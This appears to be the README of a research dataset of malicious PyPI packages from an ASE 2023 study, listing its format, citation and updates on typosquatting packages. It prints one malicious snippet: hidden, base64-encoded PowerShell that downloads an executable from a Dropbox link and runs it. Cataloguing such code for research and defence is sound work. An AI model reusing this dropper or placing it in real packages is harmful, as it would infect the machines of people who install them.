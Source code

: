 ## Dataset Size

This data set includes about 3,405 versions of the source code of 2,895 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Reference

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


